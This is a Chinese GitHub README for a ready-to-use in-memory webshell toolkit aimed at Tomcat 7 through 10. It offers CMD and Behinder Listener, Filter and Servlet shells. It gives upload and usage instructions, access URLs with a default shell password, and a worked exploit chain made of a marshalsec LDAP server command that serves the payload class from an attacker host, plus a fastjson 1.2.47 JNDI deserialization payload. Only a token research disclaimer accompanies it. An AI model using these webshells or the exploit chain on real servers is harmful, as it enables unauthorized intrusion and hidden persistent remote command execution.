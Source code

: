 # TomcatMemShell
拿来即用的Tomcat7/8/9/10版本Listener/Filter/Servlet内存马，支持注入CMD内存马和冰蝎内存马  

原理及代码分析详见[《Tomcat Servlet-Api内存马总结及代码实现》](https://mp.weixin.qq.com/s/r-JHLX5UoccGNZCfJS3klg)

测试通过的Tomcat版本：  
- **tomcat7.0.99**(2019-12-17)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.64**(2015-10-14)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.34**(2012-12-11)  
- **tomcat8.5.69**(2021-07-05)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat8.0.46**(2017-08-18)  
- **tomcat9.0.12**(2018-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat9.0.53**(2021-09-10)  
- **tomcat10.0.11**(2021-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat10.1.0-M2**(2021-07-02)
# 说明
### 主要内容
1. 实用
2. 适配对应版本的库和函数，如tomcat10开始javax.servlet更改为jakarta.servlet等
3. 添加冰蝎内存马的注入代码，方便直接GetShell
4. 分别总结了.jsp和.java的内存马实现方式，添加了Listener内存马

### JSP目录
根据目标环境**上传或写入**对应大版本的.jsp文件并访问，访问后页面返回>@<即说明注入成功，支持Tomat7/8/9/10版本

*见名知义，memlistener8910.jsp表示适用于Tomcat8/9/10版本的Listener CMD内存马，icememfilter7.jsp表示适用于Tomcat7版本的Filter冰蝎内存马*

### DeSerialize目录
对应的.java文件和.class文件需要结合**反序列化漏洞**类型进行漏洞利用，如fastjson的jndi或snakeyaml的spi等，支持Tomcat8/9/10版本

不适用于shiro漏洞，shiro漏洞利用需要继承AbstractTranslet类并且修改Header大小，感兴趣的可参考该项目：https://github.com/KpLi0rn/ShiroVulnEnv

*见名知义，LRain10表示适用于Tomcat10版本的Listener CMD内存马，IFRain表示适用于Tomcat8/9的Filter冰蝎内存马 （注意java文件修改文件名请与类名保持一致）*

对应java文件中StandardContext的获取依据Litch1师傅[《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3)的Thread.currentThread().getContextClassLoader()方式，该方式不适用于Tomcat7

# 用法
**Listener型/Filter型:**  
- CMD内存马URL：xx.xx.xx.xx/?chan=whoami  
- 冰蝎内存马URL：xx.xx.xx.xx/ &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

**Servlet型：**  
- CMD内存马URL: xx.xx.xx.xx/p?chan=whoami  
- 冰蝎内存马URL: xx.xx.xx.xx/p &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

# 利用举例
以fastjson1.2.47版本的反序列化漏洞为例，将对应Tomcat版本的class文件，这里以ILRain.class为例，上传到web服务器，并开启LDAP服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://xx.xx.xx.xx/#ILRain 9102
```
然后再打入fastjson漏洞的poc,就可以使用冰蝎客户端去连接了
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

# 免责声明
仅供技术研究，请勿用于非法用途

# 题外话
觉得有帮助的话烦请给个star:wave:

